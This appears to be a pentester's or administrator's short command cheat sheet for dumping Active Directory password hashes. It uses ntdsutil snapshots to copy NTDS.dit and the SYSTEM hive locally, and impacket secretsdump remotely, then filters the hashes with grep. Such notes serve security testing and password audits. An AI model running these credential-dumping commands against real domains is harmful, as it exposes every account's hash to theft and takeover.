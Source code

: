 ### Local DC

C:\Windows\system32>C:

C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

C:\Users\nta007>**ntdsutil**

ntdsutil: **activate instance ntds**

Active instance set to "ntds".

ntdsutil: **snapshot**

snapshot: **create**

Creating snapshot...

Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.

snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**

```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\
```

Grab your bits here!

snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
```

snapshot: **quit**

ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
C:\Windows\System32\Config
SYSTEM
NTDS - in the windows folder

### Remote
impacket-secretsdump -just-dc-ntlm FQDN/DA-account@DC-IP

***New commands*** (python3.9)
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local

cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 # < for getting just the hashes
